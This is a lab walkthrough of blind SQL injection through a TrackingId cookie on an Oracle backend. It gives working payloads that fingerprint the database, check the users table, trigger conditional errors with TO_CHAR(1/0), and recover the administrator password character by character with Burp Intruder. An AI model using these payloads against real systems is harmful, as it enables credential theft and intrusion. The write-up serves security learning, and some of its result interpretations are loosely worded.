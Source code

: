 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

Vulnerable parameter - trackingId cookie
First step is to intercept and modify the request containing the TrackingId cookie.

## End goal:
+ Output the administrator password
+ Login as the administrator user

## Analysis:

# 1. Prove that parameter is vulnerable.
Using ' and '' respectively to verify how it would be if an merror message is received.

# 2. Figure out which type of database it is:
TrackingId=xyz'||(SELECT '')||'
-- mySQL syntax, a SQL syntas error received.

TrackingId=xyz'||(SELECT '' FROM dual)||'
-- Oracle syntax, must followed by 'FROM'. dual is a dummy tabel. 
-- No error received. So the target is probably using an Oracle database.

# 3. Confirm the users table exists in the database
' || (select '' from users) ||'
-> type 500 internal server error
--The users table may contain more than one row, and this will output an empty entry for each entry in the users table. So if the users table has five entries, this will be ouput in five different rows which may break our sever code webapp.

' || (select '' from users where rownum=1) ||'
-> 200 OK
-- The users table exists.

# 4. Confirm that the administrator user exists in the users database.
' || (select '' from users where username='administrator') ||'
-> If the administrator exists, it will return a 200 OK respond.
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.

' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator') ||'
-> If the administrator exists, it will go to the select part, since 1=1, it will do TO_CHAR(1/0), which will return a 500 internal server error.
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.

# 5. Determine the length of password
' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and length(password)>1) ||'
-> 200 OK: the password length is less than 1.
-> 500 error: the password length is longer than 1.
By using intruder in Burp, we can easily get the length of password is 20.

# 6. Determine the password
' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and substr(password,1,1)='a') ||'
-> 200 OK: the first character of the password is not 'a'
-> 500 error: the first character of the password is 'a'
By repeating the process in intruder in Burp, we will get the full password.
